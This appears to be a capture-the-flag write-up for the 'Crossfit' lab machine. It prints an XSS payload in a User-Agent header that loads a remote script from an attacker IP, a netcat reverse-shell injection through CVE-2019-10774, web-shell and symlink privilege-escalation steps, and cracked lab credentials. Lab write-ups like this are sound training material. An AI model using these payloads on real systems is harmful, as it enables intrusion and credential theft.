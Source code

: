 # Crossfit - Insane

# Initial recon
After the nmap scan (TCP & UDP) we get only three ports: 21 (FTP), 22 (SSH) and 80 (web)

# Trying the FTP (21)
From the scan we get hit with the idea that FTP has an SSL ceritificate. At first, I tried to login anonymously but without any luck. Than, I found this [article](https://book.hacktricks.xyz/pentesting/pentesting-ftp) from which I tried to grab the banner using `openssl s_client -connect crossfit.htb:21 -starttls ftp`. This leaked a web virtual host `gym-club.crossfit.htb`, so we finally get an atttack surface.

# Looking int the gym-club.crossfit.htb vhost (80)
At a first glance we don't see anything that's usefull because it seems to be a static generated template from ColorLib. When we dive deeper we actually have 3 pages from which we can input: `contact.php`, `jointheclub.php` and `blog-single.php`. I tried to look for a sqli attack in all but none worked. After that I tried to look for an XSS attack. The `contact.php` and `jointheclub.php` didn't respond with anything but on `blog-single.php` I got an alert: `XSS attempt detected. A security report containing your IP address and browser information will be generated and our admin team will be immediately notified.`.

This is really interesting... a report that contains our IP and User-Agent will be overviewed by an `admin`. Because IP can't be manipulated, I tried to change the `User-Agent`, and after first try I got the ping back, requesting for `leak.js`. The command that I used was `curl -X POST --data "name=test&email=test%40test.com&phone=test&message=<script>alert(1)</script>&submit=submit" --url http://gym-club.crossfit.htb/blog-single.php -H 'User-Agent: <script>eval(atob("ZG9jdW1lbnQud3JpdGUoJzxzY3JpcHQgc3JjPWh0dHA6Ly8xMC4xMC4xNC44L2xlYWsuanM+PC9zY3JpcHQ+Jyk7Cg=="))</script>'` 

```javascript
document.write('<script src="http://10.10.14.xx/leak.js"></script>'); //read & execute the leak.js on the remote.
<script>eval(atob("ZG9jdW1lbnQud3JpdGUoJzxzY3JpcHQgc3JjPWh0dHA6Ly8xMC4xMC4xNC54eC9sZWFrLmpzPjwvc2NyaXB0PicpOw=="))</script> //decodes the base64 and executes it
```
Have a stable XSS we can read the files as `localhost` and because of this we need fuzz the subdomains that are available only on localhost using `wfuzz -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -H "Origin: http://FUZZ.crossfit.htb" --filter "r.headers.response~'Access-Control-Allow-Origin'" http://gym-club.crossfit.htb/` and we end with `ftp.crossfit.htb`.


# Creating an account on ftp.crossfit.htb (127.0.0.1 only)
Looking at this virtualhost it seems that it's somehow linked with the vsftpd service, so if we create an account on the web we will be able to access the FTP. For this we must do a POST request to the `http://ftp.crossfit.htb/accounts/`. The idea behind this is: You need to grab the CSRF token from `/accounts/create`, than make a POST to `/accounts` and than get back the responses. To get this done I used this (stackoverflow)[https://stackoverflow.com/questions/48659892/how-to-handle-csrf-token-using-xmlhttprequest] code. Note that if you don't add `tryout.withCredentials = true;` you will always get 419. You can found the whole code inside `leak.js -> createAccount()`. 
Now that we have account I tried to login using `sftp` but it didn't work so I installed Filezilla and started digging. 

# Getting the foothold
Being the ftp we have 4 directories that seems to map the virtualhosts. The only one in which we have write access is `development-test` so we can drop a shell in there. But unfortunately, as like as `ftp` we can ping it only from localhost. So we again need to use the `leak.js` file. I created the function `readPath()` to make it easier to trigger the shell. Now if we've done everything right we got a shell as `www-data`. Let's upgrade it to tty using `python3  -c 'import pty; pty.spawn("/bin/bash")'` and run `linpeas.sh`. At the very end we get a line that says `/etc/ansible/playbooks/adduser_hank.yml:$6$e20D6nUeTJOIyRio$A777Jj8tk5.sfACzLuIqqfZOCsKTVCfNEQIbH79nZf09mM.Iov/pzDCE8xNZZCM9MuHKMcjqNUd8QUEzC1CZG/`. 
I put the hash into a filee and fired up john using `john -w=/usr/share/wordlists/rockyou.txt hash` and we endup with  the password `powerpuffgirls`.
Now we can login using `ssh hank@crossfit.htb` and got the user.txt

# Privesc from hank to isaac
Running again the `linpeas.sh` we get that we can read all the files from the `/etc/pam.d/` directory and also from `/home/isaac/send_updates`. 
First I checked the `send_updates.php` under the `/home/isaac/send_updates`. Here we can find a php code that uses a composer module called `mikehaertl\shellcommand`. This has (CVE-2019-10774)[https://snyk.io/vuln/SNYK-PHP-MIKEHAERTLPHPSHELLCOMMAND-538426] assigned to it, and the proof of concept can be found in the repository of the module, under the (issues)[https://github.com/mikehaertl/php-shellcommand/issues/44] section. The database credentials can be leaked from `/var/www/gym-club/db.php`. This is the command that I've used to inject into the database: `mysql -u crossfit -poeLoo~y2baeni crossfit -e 'INSERT INTO users (email) VALUES ("--header foo --wrong-argument || nc 10.10.14.x 9001 -e /bin/bash ||");'`.

To triger this exploit the `$msg_dir` must contain at least one file. Well here I've got blocked and rechecked the enum and that it clicked: I have read acess to `/etc/pam.d/`. Let's see what's in here. The `vsftpd` and `vsftpd.orig` are interesting. And I got the hit: `auth sufficient pam_mysql.so user=ftpadm passwd=8W)}gpRJvAmnb host=localhost db=ftphosting table=accounts usercolumn=username passwdcolumn=pass crypt=3` it leaked the `ftpadm` password. Going back to Filezilla and logging in as `ftpadm` I find a folder called `messages` and we hit it! Now I can upload a basic file and get the user `isaac` a reverse shell. To obtain stability I will inject ssh keys.
Now all I have to do is `ssh -i isaac isaac@crossfit.htb`.

# Privesc from isaac to root
This is one of the toughest steps on the whole box. At first I tried again to run `linpeas.sh` but it was useless. I than decided to run `pspy` but again nothing. Again I tried to run pspy but this time with `-f` to see if there is a silent crontab that only reads/writes files. And I get a hit at `/usr/bin/dbmsg`. This seems to be a custom binary (there is nothing on the web about it) so I downloaded it and started to reverse. It seems that `process_data` is a function that reads from `crossfit/messages` database, puts the content into a file under `/var/local/` and than archives it into `/var/backups/mariadb/comments.zip`. Well we have write access into `/var/local` so we can try to make a symlink from the file to `/root/.ssh/authorized_keys`.

In order to achieve this I first understood how the filenames are generated (rand() + message.id), how the content is generated `name, message, email` which means we can insert the key in two ways (ordered and with using null) and how to combine all this.
```sql
mysql -u crossfit -poeLoo~y2baeni crossfit -e "insert into messages (id, name, message, email) values (1, 'ssh-rsa', '<key>', 'root@kali')" #the ordered way
mysql -u crossfit -poeLoo~y2baeni crossfit -e "insert into messages (id, name, message, email) values (1,null, null '<key>')" #the null way
```
The code that handles the filename is 
```cpp
lVar3 = *local_38;
uVar2 = rand();
snprintf(local_c8,0x30,"%d%s",(ulong)uVar2,lVar3);
sVar5 = strlen(local_c8);
md5sum(local_c8,(int)sVar5,(long)local_f8);
snprintf(local_98,0x30,"%s%s","/var/local/",local_f8);
```
which can be beautified up to 
```cpp 
long message_id = 1340;
uint random_number = rand();
snprintf(name_unhashed,0x30,"%d%s",(ulong)random_number,message_id);
size_t length = strlen(name_unhashed);
md5sum(name_unhashed,(int)length,(long)hashed_name);
snprintf(full_path,0x30,"%s%s","/var/local/",hashed_name);
```
Now that we have this figured out, I wrote the `pwn.py` script and the `rand.cpp` which can be compiled using `gcc rand.cpp -o rand`. Now everything I needed to do was to run it a couple of minutes an than try to login using `ssh -i isaac root@crossfit.htb` and I pwned.

It's worth mentioning that root has it's own ssh key so I downloaded it and I get redundancy over root :) `ssh -i root.rsa root@crossfit.htb`

# Credentials 

- crossfit:oeLoo~y2baeni (database)
- hank:powerpuffgirls (first user)
- ftpadm:8W)}gpRJvAmnb (ftpadmin credentials)
- root:$6$PzTExBJPqcf0mEib$eAjSFvtsks6JD4AdX5Du/XW/WU0JIwX0jmUMryO24fnjG19GBnHr3BzZaFN4krvOrkh8BFL4FCjIrGvoKRVO50 (root hash)

# Virtual Hosts
ftp.crossfit.htb www.gym-club.crossfit.htb gym-club.crossfit.htb development-test.crossfit.htb
